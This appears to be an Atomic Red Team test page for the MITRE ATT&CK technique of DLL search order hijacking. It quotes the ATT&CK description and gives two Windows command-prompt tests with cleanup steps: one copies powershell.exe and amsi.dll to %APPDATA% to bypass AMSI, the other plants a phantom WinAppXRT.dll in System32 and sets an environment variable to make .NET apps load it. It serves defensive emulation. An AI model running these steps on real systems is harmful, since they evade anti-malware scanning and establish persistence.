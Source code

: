 # T1574.001 - Hijack Execution Flow: DLL Search Order Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/001)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the search order used to load DLLs. Windows systems use a common method to look for required DLLs to load into a program. (Citation: Microsoft Dynamic Link Library Search Order)(Citation: FireEye Hijacking July 2010) Hijacking DLL loads may be for the purpose of establishing persistence as well as elevating privileges and/or evading restrictions on file execution.

There are many ways an adversary can hijack DLL loads. Adversaries may plant trojan dynamic-link library files (DLLs) in a directory that will be searched before the location of a legitimate library that will be requested by a program, causing Windows to load their malicious library when it is called for by the victim program. Adversaries may also perform DLL preloading, also called binary planting attacks, (Citation: OWASP Binary Planting) by placing a malicious DLL with the same name as an ambiguously specified DLL in a location that Windows searches before the legitimate DLL. Often this location is the current working directory of the program.(Citation: FireEye fxsst June 2011) Remote DLL preloading attacks occur when a program sets its current directory to a remote location such as a Web share before loading a DLL. (Citation: Microsoft Security Advisory 2269637)

Phantom DLL hijacking is a specific type of DLL search order hijacking where adversaries target references to non-existent DLL files.(Citation: Adversaries Hijack DLLs) They may be able to load their own malicious DLL by planting it with the correct name in the location of the missing module.

Adversaries may also directly modify the search order via DLL redirection, which after being enabled (in the Registry and creation of a redirection file) may cause a program to load a different DLL.(Citation: Microsoft Dynamic-Link Library Redirection)(Citation: Microsoft Manifests)(Citation: FireEye DLL Search Order Hijacking)

If a search order-vulnerable program is configured to run at a higher privilege level, then the adversary-controlled DLL that is loaded will also be executed at the higher level. In this case, the technique could be used for privilege escalation from user to administrator or SYSTEM or from administrator to SYSTEM, depending on the program. Programs that fall victim to path hijacking may appear to behave normally because malicious DLLs may be configured to also load the legitimate DLLs they were meant to replace.</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Search Order Hijacking - amsi.dll](#atomic-test-1---dll-search-order-hijacking---amsidll)

- [Atomic Test #2 - Phantom Dll Hijacking - WinAppXRT.dll](#atomic-test-2---phantom-dll-hijacking---winappxrtdll)


<br/>

## Atomic Test #1 - DLL Search Order Hijacking - amsi.dll
Adversaries can take advantage of insecure library loading by PowerShell to load a vulnerable version of amsi.dll in order to bypass AMSI (Anti-Malware Scanning Interface)
https://enigma0x3.net/2017/07/19/bypassing-amsi-via-com-server-hijacking/

Upon successful execution, powershell.exe will be copied and renamed to updater.exe and load amsi.dll from a non-standard path.

**Supported Platforms:** Windows


**auto_generated_guid:** 8549ad4b-b5df-4a2d-a3d7-2aee9e7052a3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
%APPDATA%\updater.exe -Command exit
```

#### Cleanup Commands:
```cmd
del %APPDATA%\updater.exe >nul 2>&1
del %APPDATA%\amsi.dll >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Phantom Dll Hijacking - WinAppXRT.dll
.NET components (a couple of DLLs loaded anytime .NET apps are executed) when they are loaded they look for an environment variable called APPX_PROCESS
Setting the environmental variable and dropping the phantom WinAppXRT.dll in e.g. c:\windows\system32 (or any other location accessible via PATH) will ensure the 
WinAppXRT.dll is loaded everytime user launches an application using .NET.

Upon successful execution, amsi.dll will be copied and renamed to WinAppXRT.dll and then WinAppXRT.dll will be copied to system32 folder for loading during execution of any .NET application.

**Supported Platforms:** Windows


**auto_generated_guid:** 46ed938b-c617-429a-88dc-d49b5c9ffedb






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
ren %APPDATA%\amsi.dll WinAppXRT.dll
copy %APPDATA%\WinAppXRT.dll %windir%\System32\WinAppXRT.dll
reg add "HKEY_CURRENT_USER\Environment" /v APPX_PROCESS /t REG_EXPAND_SZ /d "1" /f
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Environment" /v APPX_PROCESS /f
del %windir%\System32\WinAppXRT.dll
del %APPDATA%\WinAppXRT.dll
```





<br/>
